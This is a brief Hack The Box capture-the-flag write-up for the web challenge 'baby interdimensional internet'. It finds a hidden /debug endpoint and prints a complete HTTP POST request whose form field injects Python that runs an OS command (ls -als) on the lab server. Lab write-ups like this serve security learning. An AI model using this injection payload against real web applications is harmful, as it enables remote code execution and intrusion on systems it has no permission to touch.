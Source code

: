 ```yaml
---
title: "HTB Web challenge-baby interdimensional internet"
date: 1337-01-06 00:00:00 
categories: [Hack The Box,Notes]
tags: [HTB,CTFs]
---
```


We will solve web challenge from HackTheBox called `baby interdimensional internet` \
Let's get started!

![alt text](../pics/image-16.png)

okay lets check the source of the page 

![alt text](../pics/image-17.png)

we found this `<!-- /debug -->` , let's try requesting this endpoint :
![alt text](../pics/image-18.png)
okay from the code we can run rce by making post request like this 
```
POST / HTTP/1.1
Host: 94.237.57.211:51999
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 78
ingredient=pwned_ls&measurements=__import__('os').popen('ls -als').read()
```
and boom we solved it 